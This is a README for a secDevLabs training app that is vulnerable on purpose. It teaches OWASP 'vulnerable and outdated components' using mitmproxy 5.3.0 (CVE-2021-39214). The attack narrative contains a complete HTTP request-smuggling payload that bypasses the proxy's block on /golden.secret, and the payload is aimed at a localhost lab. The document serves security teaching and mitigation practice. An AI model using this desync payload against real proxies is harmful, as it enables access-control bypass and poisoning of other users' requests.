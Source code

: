 <!-- This is a README Template for secDevLabs apps -->
# Golden hat society

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

Golden hat society é uma aplicação feita com python que possui um proxy reverso, mitmproxy, bloqueando a rota `/golden.secret` que deve ser acessada apenas por quem está dentro da VPN docker. 

## Index

- [Definition](#definition)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)


## <a name="definition"></a> What does it mean to use vulnerable and outdated components?

This vulnerability was #9 on OWASP top ten 2017 and made all the way up to #6 in 2021. Normally, softwares that contains incoming connections, are executed by exclusive users with restricted permissions. The reason why is that if someone exploits the application, then this attacker can't do much because of these permissions.

As softwares get bigger and bigger, we must use some libraries at some point, this means that those libs must be secure too. The main point of this vulnerability is to use a lib, framework and other modules vulnerable to an already known vulnerability (known by advisories).

The main goal of this app is to discuss how using vulnerable and outdated components can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this application:

```sh
cd secDevLabs/owasp-top10-2021-apps/a6/golden-hat
```

```sh
make install
```

Then simply visit [localhost:10006][app] ! :ghost:

## Get to know the app ⚜️

To properly understand how this application works, you can follow these simple steps:

* Visit the homepage.

## Attack narrative

Now that you know the purpose of this app, what could possibly go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or it's users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of vulnerable mitmproxy version allows HTTP desync attacks

First time acessing the app:

<p align="center">
    <img src="images/img1.png"/>
</p>

Once we try reaching the `/golden.secret` we can see interesting headers:

<p align="center">
    <img src="images/attack1.png"/>
</p>

As we can see this `Via: mitmproxy/5.3.0` helps us with the recon. Now that we know what is running on the server we can search for CVEs on this version of mitmproxy. Once we found the CVE-2021-39214, we can make an exploit to this vulnerability.

Let's take a look on the mitmproxy source code, [TAG 5.3.0](https://github.com/mitmproxy/mitmproxy/tree/v5.3.0) at file [/mitmproxy/net/http/http1/read.py:L209](https://github.com/mitmproxy/mitmproxy/blob/a738b335a36b58f2b30741d76d9fe41866309299/mitmproxy/net/http/http1/read.py#L209):

```python
if "chunked" in headers.get("transfer-encoding", "").lower():
    return None
```

As we can see this piece of code is responsible for the vulnerability. Now that we know that the proxy proccess any request as chunked that contains the chunked keyword, we can craft an request that the proxy will understand as `Transfer-Encoding` chunked and the gunicorn backend will understand as `Content-Length`. This request can be sent on burp repeater (you must disable the option `update content-length`), telnet, netcat or any type of connection that allow to send texts over sockets.

```
GET /w HTTP/1.1
Host: 127.0.0.1:10006
Transfer-Encoding: chunkedasd
Content-Length: 4

35
GET /golden.secret HTTP/1.1
Host: 127.0.0.1:8000


0

GET / HTTP/1.1
Host: 127.0.0.1:10006


```

The first request forces a 404 error. The frontend(proxy) will parse the request as a normal request with body until the 0. The backend will process the first request until 35 and then will parse the request to `/golden.secret` poisoning the next socket. Then we just put a new alignment request at the end to poison a socket that we control.

After running this payload as a request we can see the secret page:


<p align="center">
    <img src="images/attack2.png"/>
</p>

This vulnerability is interesting because you can poison other clients requests and smug them to do what you want!

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Bypass proxy rules.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Aclosed+is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Golden+Hat+Society%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[secDevLabs]: https://github.com/globocom/secDevLabs
[app]: http://localhost:10006
